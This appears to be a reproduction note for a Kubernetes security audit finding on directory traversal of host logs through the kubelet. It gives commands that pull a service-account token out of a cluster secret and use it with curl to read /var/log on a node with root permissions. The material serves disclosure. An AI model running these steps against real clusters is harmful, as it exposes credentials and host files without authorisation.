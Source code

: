 Source:
https://github.com/kubernetes/community/blob/master/wg-security-audit/findings/Kubernetes%20Final%20Report.pdf

# kubernetes-TOB-K8S-026
Directory traversal of host logs running kube-apiserver and kubelet

```
AWS_PROFILE=testing kubectl get secret
NAME                  TYPE                                  DATA      AGE
<token-name>  kubernetes.io/service-account-token   X         XXXd
```
```
AWS_PROFILE=testing kubectl get secret <token-name> -o json | jq -Mr '.data.token' | base64 -d
```

The output from previous command is the Bearer token. Put it under $MY_TOKEN below. Go to your K8s Node

```
curl -k -H "Authorization: Bearer $MY_TOKEN" "https://<node-ip>:10250/logs/"
```

And you should see /var/log with it subdirectories on the kubelet. You can enter directories and read with permission of root.
